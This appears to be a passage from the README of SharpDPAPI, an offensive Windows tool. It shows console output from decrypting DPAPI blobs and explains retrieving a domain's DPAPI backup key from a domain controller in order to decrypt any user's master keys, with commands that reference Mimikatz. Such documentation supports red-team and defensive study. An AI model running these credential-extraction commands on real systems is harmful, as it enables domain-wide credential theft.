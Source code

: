       __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe DPAPI blob

    [*] Using CryptUnprotectData() for decryption.

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 314
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : 01 00 00 00 3F 3F 3F 3F 01 15 3F 11 3F 7A 00 3F 4F 3F 3F ...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob2.bin /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe DPAPI blob

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 314
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : 01 00 00 00 3F 3F 3F 3F 01 15 3F 11 3F 7A 00 3F 4F 3F 3F ...


#### backupkey

The **backupkey** command will retrieve the domain DPAPI backup key from a domain controller using the **LsaRetrievePrivateData** API approach [from Mimikatz](https://github.com/gentilkiwi/mimikatz/blob/2fd09bbef0754317cd97c01dbbf49698ae23d9d2/mimikatz/modules/kuhl_m_lsadump.c#L1882-L1927). This private key can then be used to decrypt master key blobs for any user on the domain. And even better, the key never changes ;)

Domain admin (or equivalent) rights are needed to retrieve the key from a remote domain controller.

This base64 key blob can be decoded to a binary .pvk file that can then be used with Mimikatz' **dpapi::masterkey /in:MASTERKEY /pvk:backupkey.pvk** module, or used in blob/file /pvk:X form with the **masterkeys**, **credentials**, or **vault** SharpDPAPI commands.
